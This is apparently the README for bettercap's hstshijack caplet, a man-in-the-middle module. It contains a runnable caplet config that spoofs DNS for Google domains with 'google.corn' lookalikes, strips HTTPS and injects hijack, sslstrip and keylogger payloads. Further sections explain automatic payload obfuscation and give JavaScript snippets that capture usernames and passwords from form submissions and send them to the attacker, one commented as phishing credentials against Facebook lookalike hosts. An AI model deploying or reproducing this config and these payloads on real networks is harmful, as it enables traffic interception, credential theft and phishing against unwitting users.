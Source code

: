 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets         *.google.com, google.com, gstatic.com, *.gstatic.com
set hstshijack.replacements    *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set hstshijack.ssl.domains     /usr/local/share/bettercap/caplets/hstshijack/domains.txt
set hstshijack.ssl.index       /usr/local/share/bettercap/caplets/hstshijack/index.json
#set hstshijack.blockscripts    example.com,*.example.com
set hstshijack.obfuscate       true
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
#set hstshijack.ignore          *

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
http.proxy on

set dns.spoof.domains  *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set dns.spoof.all      true
dns.spoof on
```

### Core payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>). This payload acts as a callback for bettercap, and takes care of hostname spoofing in the injected context (and document).

### Scalable domain indexing (SSL log)

If a host responds with an HTTPS redirect, bettercap will save this host in a list, and keep a log of (alphanumerically) ordered index ranges of the domains in this list, allowing it to scale by reducing a considerable amount of overhead for the proxy module.

Bettercap will try to spoof SSL connections between the client and said hosts, and will also send a HEAD request to each host that was discovered in an injected document, which we retrieve via callbacks from the hstshijack.js payload.

By default, this caplet will remap the index ranges of all domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.check` variable value to `false`.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are assembled at launch, and wrapped inside a function which is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once on every document, even if injected multiple times. Individual payloads are not failsafe, so you must set your conditions/try and catch blocks yourself.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the hstshijack.js and sslstrip.js payloads when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_` will be obfuscated.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_path_callback` will be replaced with the callback path that bettercap listens for (this can save time when writing JavaScript payloads).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.

